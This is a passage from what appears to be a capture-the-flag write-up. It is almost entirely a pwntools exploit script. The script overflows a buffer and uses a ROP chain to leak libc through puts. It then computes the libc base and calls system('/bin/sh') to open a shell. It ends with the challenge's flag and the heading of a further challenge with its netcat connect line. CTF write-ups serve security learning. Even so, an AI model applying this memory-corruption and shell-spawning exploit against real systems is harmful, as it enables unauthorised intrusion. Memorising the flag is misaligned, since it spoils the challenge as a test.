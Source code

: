 ```py
gdbscript = '''
b *0x80486C1
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()
io.recvuntil(':')
io.sendline('B'*0x100)
io.recvuntil(':')
io.sendline('B'*80)
io.recvuntil(':')
pause()
#leak libc, call main again
rop = flat([
	'D'*0x10,
	exe.sym.puts,
	exe.sym.main,
	exe.got['puts']
])
io.sendline(rop)
io.recvn(0x122)
libc_base = u32(io.recvn(4)) - 0x0673d0
log.info(hex(libc_base))
io.recvuntil(':')
io.sendline('B'*0x100)
io.recvuntil(':')
io.sendline('B'*80)
io.recvuntil(':')
pause()
#call system('/bin/sh')
rop = flat([
	'D'*0x10,
	libc_base+0x03cd80, #system
	0x41414141,
	libc_base+0x17bb8f #binsh string
])
io.sendline(rop)
#pop shell
io.interactive()
#flag{my_code_was_almost_secure}
```

## Statics and Dynamics
points - 100

Everybody likes the dynamic side of things, what about the static?

Connect with:
nc jh2i.com 50002
